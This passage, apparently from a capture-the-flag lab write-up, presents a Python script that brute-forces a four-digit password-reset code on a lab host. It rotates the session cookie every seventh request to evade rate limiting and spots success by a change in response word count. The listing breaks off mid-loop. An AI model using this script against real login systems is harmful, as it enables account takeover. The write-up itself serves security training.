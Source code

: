 With the information we have, we are able to automates the process of brute-forcing a password recovery. It first requests a password reset and retrieves the `PHPSESSID` cookie, then iteratively submits recovery codes in a brute-force manner, periodically refreshing the `PHPSESSID` every seventh request. The script detects a successful code submission by checking for a change in the response text's word count.

{% code title="brute.py" overflow="wrap" lineNumbers="true" %}

```python
import subprocess

def get_phpsessid():
    # Request Password Reset and retrieve the PHPSESSID cookie
    reset_command = [
        "curl", "-X", "POST", "http://hammer.thm:1337/reset_password.php",
        "-d", "email=tester%40hammer.thm",
        "-H", "Content-Type: application/x-www-form-urlencoded",
        "-v"
    ]

    # Execute the curl command and capture the output
    response = subprocess.run(reset_command, capture_output=True, text=True)

    # Extract PHPSESSID from the response
    phpsessid = None
    for line in response.stderr.splitlines():
        if "Set-Cookie: PHPSESSID=" in line:
            phpsessid = line.split("PHPSESSID=")[1].split(";")[0]
            break

    return phpsessid

def submit_recovery_code(phpsessid, recovery_code):
    # Submit Recovery Code using the retrieved PHPSESSID
    recovery_command = [
        "curl", "-X", "POST", "http://hammer.thm:1337/reset_password.php",
        "-d", f"recovery_code={recovery_code}&s=180",
        "-H", "Content-Type: application/x-www-form-urlencoded",
        "-H", f"Cookie: PHPSESSID={phpsessid}",
        "--silent"
    ]

    # Execute the curl command for recovery code submission
    response_recovery = subprocess.run(recovery_command, capture_output=True, text=True)
    return response_recovery.stdout

def main():
    phpsessid = get_phpsessid()
    if not phpsessid:
        print("Failed to retrieve initial PHPSESSID. Exiting...")
        return
    
    for i in range(10000):
        recovery_code = f"{i:04d}"  # Format the recovery code as a 4-digit string

        if i % 7 == 0:  # Every 7th request, get a new PHPSESSID
            phpsessid = get_phpsessid()
            if not phpsessid:
                print(f"Failed to retrieve PHPSESSID at attempt {i}. Retrying...")
                continue
        
        response_text = submit_recovery_code(phpsessid, recovery_code)
        word_count = len(response_text.split())

        if word_count != 148:
```
